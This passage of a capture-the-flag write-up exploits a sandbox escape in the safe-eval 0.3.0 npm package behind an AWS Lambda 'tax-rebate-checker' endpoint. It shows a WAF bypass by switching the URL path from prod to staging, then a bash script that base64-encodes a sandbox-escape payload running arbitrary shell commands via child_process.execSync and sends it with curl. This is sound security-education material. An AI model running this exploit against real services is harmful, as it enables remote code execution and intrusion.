 `safe-eval` is the only dependency listed, so we checked out its GitHub and NPM pages.

Sure enough, `safe-eval 0.3.0` has a [critical vulnerability](https://github.com/hacksparrow/safe-eval/issues/5) to be exploited. (to add: explain what the person is doing. why does this bypass safe-eval? (edit: 2 years later and this still has not been explained))

## Exploiting the Exploit

To recap, we just need to switch from `prod` to `staging` in the API URL, to bypass the WAF: https://af7jsq9nlh.execute-api.ap-southeast-1.amazonaws.com/staging/tax-rebate-checker. _(easiest WAF bypass on earth: done)_

From `index.js`, we can see that the [vulnerable line](https://github.com/c0v1d-agent-1/tax-rebate-checker/blob/main/index.js#L13) uses:

```js
safeEval((new Buffer(body.age, 'base64')).toString('ascii') + " + " + (new Buffer(body.salary, 'base64')).toString('ascii') + " * person.code",context);
```

This means that:

- We have to put our payload in `body.age`, not the other way round
  - We want `<payload> // + this stuff is all in a comment`
  - If we put the payload in `salary`, the payload would be `<body.age> + <payload> //`, which would result in an error (if `<body.age> + <payload>` is invalid), or it would return the added value of the two
- Whatever values for `body.age` and `body.salary` we have to pass in needs to be in base64.

Hence, our payload wrapper would look like this:

```js
{
    "age": new Buffer(`<PAYLOAD>//`, "ascii").toString("base64"),
    "salary": "any value will do here since it's commented either way"
}
```

We found an example payload [here](https://snyk.io/vuln/SNYK-JS-SAFEEVAL-608076), but it did not work for AWS's newer version of Node.js (later determined to be Node.js 12.19.0 with `node --version`). We dug a bit deeper in the GitHub issues and found an [updated payload to use](https://github.com/hacksparrow/safe-eval/issues/18#issuecomment-592644871).  (to add: explain how this exploit works)

We just need to replace `whoami` with our preferred shell command to run arbitrary commands.

## Finding the flag
_([skip to solution](#solution))_

Now we are in the Lambda function, RCE in hand. However, no hints were given about where the flag was located.

To avoid wasting time, we drew up a shell file to perform any command we wanted quickly:

```bash
cmd="(function(){delete this.constructor;const HostObject=this.constructor;const HostFunction=HostObject.is.constructor;const process=HostFunction('return process')();return process.mainModule.require('child_process').execSync('COMMAND').toString();})()//"

echo -n "Command? "
read rep

payload=$(echo -n "${cmd/COMMAND/$rep}" | base64 | tr -d " \t\n\r")

curl https://af7jsq9nlh.execute-api.ap-southeast-1.amazonaws.com/staging/tax-rebate-checker --data '{"age":'\"$payload\"',"salary":"123"}' -H 'Content-Type: application/json'
```
